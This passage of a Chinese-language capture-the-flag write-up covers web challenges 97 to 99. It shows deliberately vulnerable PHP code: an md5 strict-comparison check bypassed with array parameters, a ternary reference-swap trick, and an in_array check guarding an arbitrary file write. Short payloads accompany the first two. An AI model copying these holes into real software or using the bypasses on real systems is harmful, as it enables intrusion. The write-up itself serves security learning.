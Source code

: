 ```php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

md5强类型绕过

payload

```
a[]=1&b[]=2
```

## web98(三目运算符)

```php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
?> 
```

三目运算符

如果get进行传参，会将post的值给get

最后一行，需要get传参HTTP_FLAG等于flag即可高亮flag

payload

```
GET:flag=1
POST: HTTP_FLAG=flag
```

## web99(in_array函数)

```php
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
?>
```
